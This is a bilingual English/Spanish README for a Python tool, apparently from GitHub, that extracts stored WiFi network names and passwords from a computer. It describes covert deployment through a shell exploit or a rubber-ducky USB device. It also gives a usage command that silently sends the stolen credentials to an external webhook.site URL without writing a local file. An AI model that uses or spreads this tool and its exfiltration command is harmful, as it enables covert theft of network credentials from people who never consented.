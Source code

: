 # WIFI_Extractor

you might need this requeriments
Tal vez podrias necesitar estos requerimientos

pip install click
pip install elementpath
pip install requests

Script to extract WIFI passwords from a pc uploading it remotely (shell exploit) and send it to a url "silently"(webhook without leaving files 
and also can be used offline, physically (rubby ducky)

Script para extraer contraseñas WIFI de un pc subiendolo remotamente(shell exploit) y enviarlo a una url "silenciosamente"(webhook) 
Tambien se puede usar offline, físicamente con un pendrive(rubby ducky)

Usage

Usage: E_WIFI.py [OPTIONS]


Options:

  -u, --url TEXT      Webhook/POST URL
  
  -o, --only-webhook  Only send data to webhook (whithout creating the txt
  
                      file) need to specify the url with -u Envía los datos
                      
                      solo a la webhook (sin crear el archivo txt) necesitas
                      
                      especificar la url con -u
                      
  -v, --version       Imprime la version | Prints the version
  
  --help              Show this message and exit.
  

Offline

python3 E_WIFIoffline.py

Creates a txt with the WIFI's ssid and passwords stored in the local machine
Crea un txt con los nombres y las contrasenas WIFI guardadas en la maquina local

Online

Usages

default usage
python3 E_WIFI.py

Creates a txt with the WIFI's ssid and passwords stored in the local machine
Crea un txt con los nombres y las contrasenas WIFI guardadas en la maquina local

silent: Only webhook, no txt file
python3 E_WIFI.py -u https://webhook.site/yoururl -o

type --help for more detailed info

